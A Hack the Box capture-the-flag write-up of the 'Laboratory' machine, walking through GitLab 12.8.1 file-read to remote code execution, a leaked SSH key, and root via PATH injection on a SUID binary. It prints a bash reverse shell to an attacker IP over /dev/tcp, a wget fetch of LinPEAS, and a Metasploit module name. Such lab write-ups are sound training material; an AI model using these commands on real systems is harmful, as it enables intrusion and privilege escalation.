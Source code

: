 # Hack the Box - Laboratory


<div style="text-align:center">Write-up of Laboratory - Difficulty : Easy </div>

<!--more-->

>Just do it  
>  
> -Shia Lebeouf  

## 1. Overview

Laboratory is a Linux box running a vulnerable version of GitLab.  
Utilizing a known vulnerability we can reset the admin password and gain access to a stored SSH key.  
An executable stored on the victim is vulnerable to PATH injection and can be used to gain root access.  z


## 2. Recon

### 2.1 Nmap
As always we start off running a port scan with nmap and we see that ports 22, 80, and 443 are open.  

``` bash 
 nmap -sC -sV -T4 10.129.130.16
```

![nmap](nmap.png)  

There's a redirect on 443 leading to **https://laboratory.htb**  

### 2.2 Websites
#### 2.2.1 laboratory.htb
We can't get to the site by just browsing to the IP address so we'll have to add it to our **/etc/hosts/** file before browsing to https://laboratory.htb.  
We can see that there's a certificate error. When we view the cert we can see an alternate name listed for **git.laboratory.htb**.

![gem](cert.png)  

Nothing else useful is on the site so we move over to git.laboratory.htb.


#### 2.2.2 git.laboratory.htb

As we poke around the GitLab site we find that we can register a user and login. The website only allows @laboratory.htb emails to be registered but doesn't require any verifcation before it logs you in.  

![proc](register.png)  

When we get into GitLab the first thing is to check the version, which turns out to be **GitLab Community Edition 12.8.1**. After some googling we wind up at https://hackerone.com/reports/827052 which details a security vulnerability involving read access to system files. This vulnerability can be used to get RCE on the host.  

We need to get the contents of the **secrets.yml** file. To do so we make a two projects, create an issue in one project, and then move that issue over to the other project. That should make GitLab include the actual file we specify in an attachment on the issue.  

![git](newissue.png)   <br>
![git](moveissue.png)  <br>
![git](issue2.png)  

## 3. Foothold

For this part we're going to cheat a little and use Metasploit since there's a module available. If we use **exploit/multi/http/gitlab_file_read_rce** it should give use RCE on the box. After filling out all the options (and putting in the secret key we got from before) we can just run the exploit and get a shell as **git**.  
I believe the exploit is able to grab that secrets file itself but wasn't working for me whenver I tried it.

![git1](msf.png)

## 4. User

The user git has access to the gitlab-rails console so we'll be able to reset the password for other users on GitLab. We find the necessary documentation at https://docs.gitlab.com/12.10/ee/security/reset_root_password.html. After performing all the necessary steps listed we can simply log in as the user Dexter.  

![curl](gitadmin.png)



## 5. Second User

Back we go to the GitLab page to login as Dexter. We can see that he has a project called SecureDocker which for some reason has his private key uploaded in the repo. We can take that key and save it to a text file on our attack box. Using the key we can SSH over as Dexter and grab the user flag. 
```
chmod 600 FILE
ssh -i FILE dexter@10.129.130.16
```

![root](dexproj.png)  
![ssh](userflag.png)  

##6. Root

First thing we do is upload **LinPEAS** to the victim and run it. We host the file with **python3 -m http.server** and the grab it with our remote shell with **wget http://10.10.14.124:8000/linpeas.sh**.  
<br>
LinPEAS finds a file with the SUID bit set in **/usr/local/bin**  
![bin](suid.png)  
<br>
Running that file doesn't appear to do anything so we upload **PSpy** to see if it's doing something in the background that we can't see.  
![py](dockersec.png)  
<br>
When we run it again we can see that it's running some commands, but it's not using the absolute path of **chmod** which means that it's most likely vulnerable to PATH injection.  
We make a file in **/tmp** named chmod and fill it with the following bash reverse shell.  
```bash
#!/bin/bash
bash - >& /dev/tcp/10.10.14.124/7233 0>&1
```
After creating out file we need to make sure that docker-security will run our chmod command and not the system's by adding /tmp to our PATH variable with **PATH=/tmp:$PATH**. We start out netcat listener and run docker-security to get our root shell and the root flag.

![root](root.txt.png)





## Conclusion

1. Update software to ensure known vulnerabilites are mitigated. 
2. Don't upload private keys to an easily accessible location.
3. Ensure any scripting is utilizing absolute path for commands to prevent PATH injection vulnerabilites.

<br>
<br>
<br>

<div style="text-align:center"><a href="https://www.hackthebox.eu/home/users/profile/190484"><img src="https://www.hackthebox.eu/badge/image/190484"></a></div>
<div style="text-align:center">If this write-up was helpful consider leaving some respect on my HTB profile.</div>

